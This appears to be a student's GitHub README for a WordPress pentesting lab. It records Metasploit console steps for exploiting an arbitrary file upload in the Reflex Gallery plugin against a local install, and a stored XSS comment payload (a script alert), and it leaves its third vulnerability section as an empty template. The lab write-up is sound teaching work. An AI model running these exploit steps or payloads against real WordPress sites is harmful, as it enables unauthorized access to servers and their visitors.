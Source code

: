 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. Arbitrary File Upload
  - [x] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [x] GIF Walkthrough: <img src="arbitrary_file.gif">
  - [x] Steps to recreate: 
	1. ```server postgresql start```
	2. ```msfdb init```
	3. ```msfconsole```
	4. At this point, you will be inside of the Metasploit console
	5. ```db_status``` (If it reads Connected to msf, you're good to go)
	6. ```search Reflex```
	7. ```use 0```
	8. ```set RHOST 127.0.0.1```
	9. ```set RPORT 8080```
	10. ```set LHOST 192.168.65.3``` (Different in some cases, it's eth0 under ifconfig)
	11. ```exploit``` (this will gain you access to the file system to edit php files)
	
### 2. XSS Comment (Authorized)
  - [x] Summary: 
    - Vulnerability types: XSS using comments that are authorized on WP
    - Tested in version: 4.1
    - Fixed in version: 4.1.26
  - [x] GIF Walkthrough: <img src="XSS_Comment_Scripting.gif">
  - [x] Steps to recreate: 
	1. **Login to Admin account on WordPress**
	2. **Find a comment to post on**
	3. **Post a javascript tag in the comment box**
	4. Example: ```<script>alert('XSS!');</script>```
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: -

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with Screen To GIF

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.